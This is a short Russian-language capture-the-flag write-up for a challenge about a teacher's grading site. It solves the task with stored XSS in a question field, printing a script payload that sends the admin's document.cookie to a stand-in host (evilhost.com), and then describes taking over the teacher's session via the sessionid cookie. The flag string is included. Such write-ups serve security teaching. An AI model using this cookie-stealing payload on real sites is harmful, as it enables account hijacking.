 # marks

## Описание

Говорят, у одного учителя невозможно получить хорошую оценку по ctf'у. Можете разобраться?

(ссылка)

## Решение

Xss в одном из полей вопроса. Создадим такой пейлоад, который отправит на наш хост куки админа. Пример сервиса, позволяющий такое делать - requestbin.com

Возможный пейлоад:

```
<script> location = 'http://evilhost.com?cookie='+document.cookie; </script>
```

Далее, для того, чтобы зайти на аккаунт учителя, заменим значение куки `sessionid` на значение, полученное в запросе. Теперь остается только поставить себе несколько хороших оценок.

### Флаг
TeacherCTF{y0u_4r3_h0n0ur5_pup1l_4nd_x55_m4573r}